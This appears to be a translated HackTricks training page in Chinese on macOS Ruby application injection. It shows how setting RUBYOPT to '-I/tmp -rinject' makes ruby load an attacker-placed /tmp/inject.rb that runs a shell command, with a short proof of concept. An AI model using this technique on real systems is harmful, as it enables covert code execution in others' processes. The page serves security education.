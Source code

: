 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

使用这个环境变量，可以在每次执行**ruby**时**添加新参数**。虽然参数**`-e`**不能用于指定要执行的ruby代码，但可以使用参数**`-I`**和**`-r`**来添加一个新文件夹到库加载路径，然后**指定要加载的库**。

在**`/tmp`**中创建库**`inject.rb`**：
```ruby:inject.rb
puts `whoami`
```
创建一个类似于以下的 Ruby 脚本：
```ruby:hello.rb
puts 'Hello, World!'
```
然后使用以下任意 Ruby 脚本加载它：
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
有趣的事实，即使使用参数 **`--disable-rubyopt`** 也有效：
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
